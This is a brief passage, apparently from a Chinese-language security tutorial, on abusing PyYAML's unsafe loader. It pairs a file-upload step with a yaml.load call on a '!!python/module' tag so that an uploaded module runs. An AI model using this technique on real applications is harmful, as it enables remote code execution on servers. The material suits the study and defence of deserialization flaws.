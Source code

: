 ### 针对 module
我们这个需要搭配我们的文件上传方法，我们先把我们的文件写入到我们的 `eval.py` 中，然后再去执行下面的语句：
```
#a.py
import yaml

yaml.load('!!python/module:uploads.eval')
```